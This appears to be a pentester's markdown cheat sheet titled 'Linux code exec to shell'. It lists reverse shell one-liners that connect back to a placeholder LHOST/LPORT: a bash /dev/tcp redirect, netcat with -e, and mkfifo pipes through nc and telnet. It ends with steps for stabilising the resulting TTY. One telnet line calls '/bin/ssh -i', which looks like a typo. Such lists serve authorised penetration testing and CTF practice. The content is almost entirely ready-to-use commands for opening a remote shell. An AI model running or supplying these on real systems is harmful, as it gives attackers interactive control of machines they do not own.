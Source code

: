 # Linux code exec to shell

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

```text
# netcat
nc (-c/-e) /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y

# telnet
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

### Stabilising shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

